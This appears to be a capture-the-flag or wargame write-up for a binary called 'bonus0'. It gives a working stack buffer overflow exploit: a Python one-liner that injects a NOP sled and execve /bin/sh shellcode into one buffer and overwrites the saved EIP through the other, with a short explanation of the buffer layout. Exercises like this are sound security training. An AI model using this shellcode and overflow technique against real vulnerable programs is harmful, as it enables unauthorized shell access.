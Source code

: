 ```shell
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xbd\xe6\xff\xbf" + "B" * 7' ; cat -) | ./bonus0
```

Ok so basicly we can fill two buffers. The two have to be filled by at least 20 characters in order to trigger an overflow. The offset is of 9 character in the second buffer. The final buffer will be equal to : `buf1 + buf2 + space + buf2`, so we put the shellcode in the first buffer and the address to overwrite `eip` in the second one (pointing on the shellcode in the first buffer)
.
